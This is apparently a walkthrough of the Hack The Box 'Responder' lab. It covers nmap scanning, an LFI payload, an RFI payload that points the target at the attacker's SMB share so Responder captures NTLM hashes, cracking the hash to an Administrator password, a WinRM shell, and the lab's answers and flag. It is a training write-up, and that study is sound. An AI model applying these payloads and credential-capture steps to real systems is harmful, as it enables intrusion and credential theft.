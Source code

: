 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Responder

## <mark style="color:blue;">Description</mark>

* **Tier **<mark style="color:green;">**->**</mark> 0
* **Difficult** <mark style="color:green;">**->**</mark> Very Easy
* **OS** <mark style="color:green;">**->**</mark> Linux
* **Tags **<mark style="color:green;">**->**</mark> WinRM / Custom Applications / Protocols / XAMPP / SMB / Responder / PHP\
  &#x20;             Reconnaissance / Password Cracking / Hash Capture / Remote File Inclusion\
  &#x20;             Remote Code Execution

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>



## <mark style="color:blue;">Write-up</mark>

* We start doing an initial scan

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p- -Pn --min-rate 2000 10.129.215.213
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

***

* Now we can make an exhaustive scan

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>nmap -p80 -sVC 10.129.215.213
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

***

* As it is an http on port 80, it means is a web page, so we can go an check it on the browser. It redirect us to a domain named _unika.htb_ but it cannot connect to the server.

<figure><img src="../../../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>



***

* With this we can answer the first question

<figure><img src="../../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

> Answer: _**unika.htb**_

***

* The reason why the page does not show us content is because isn't in our list of known hosts. To fix this we will add it modifying the _/etc/hosts_ file

{% code lineNumbers="true" %}
```bash
sudo nano /etc/hosts
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

***

* Now we can reload the page and it will work properly

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

***

* We can get some information about the page technologies from _Wappalyzer_

<figure><img src="../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

***

* With this we can answer the next question

<figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

> Answer: _**php**_

***

* As we navigate through the page we find in the top rigth corner a slider to select the language of the page

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

***

* If we select one different from english, the language of all the page will change and the URL will show some parameters reflecting this action

<figure><img src="../../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

***

* Then we can answer the next question

<figure><img src="../../../.gitbook/assets/image (148).png" alt=""><figcaption></figcaption></figure>

> Answer: _**page**_



***

* Now we can abuse of the parameters to make a LFI attack to list the contents of the server. The attemp is successfull and give us the content of the asked file. Note that we use a payload for a windows server because _**Wappalyzer**_ told us this information.

{% code title="Payload" lineNumbers="true" %}
```url
page=../../../../../../../../windows/system32/drivers/etc/hosts
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

***

* With  this and some research we can answer some questions

<figure><img src="../../../.gitbook/assets/image (152).png" alt=""><figcaption></figcaption></figure>

> Answer: ../../../../../../../../windows/system32/drivers/etc/hosts

***

<figure><img src="../../../.gitbook/assets/image (153).png" alt=""><figcaption></figcaption></figure>

> Answer: _**//10.10.14.6/somefile**_

***

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

> Answer: _**New Technology Lan Manager**_

***

<figure><img src="../../../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

> Answer: _**-I**_

***

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

> Answer: _**John The Ripper**_

***

* Now we will use the _responder_ utility to get the credentials of the target. First we need to configure the tool, we modify the R_esponder.config_ file to set the value of _SMB_ to _On_.

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

***

* With this set we initialize the tool specifying the network interface linked to the Hack The Box VPN (normally _tun0_)

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption><p>Snippet</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

***

* With this we can go to the vulnerable parameter of URL and make a RFL to our machine to get the credentials.

{% code title="Payload" overflow="wrap" lineNumbers="true" %}
```url
page=//10.10.14.195/somefile
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

***

* As seen above, the page display us an error but if we check the responder running service it have catched the credentials of the target.

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

***

* The most important part is the hash we have obtained so we save it in a text file.

<figure><img src="../../../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

***

* Now we can try to break the hash using the _John The Ripper_ tool. We will see the cracking process was successful and we have got the passwword _badminton_ for the uswer _Administrator_

<figure><img src="../../../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

***

* With this and some research we can answer some questions

<figure><img src="../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

> Answer:  _**badminton**_

***

<figure><img src="../../../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

> Answer: _**5985**_

***

* With this credentials we can use the _**evil-winrm**_ tool to connect  to a shell of the windows machine

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

***

* If we search through the system, we will find a file called _flag.txt_ in the _\mike\Desktop_ folder

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

***

* Finally we can check the content of the file with `type flag.txt` and exit from the windows system

<figure><img src="../../../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

***

* With this we have got the root flag and have pawned the machine

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

> Answer: _**ea81b7afddd03efaa0945333ed147fac**_
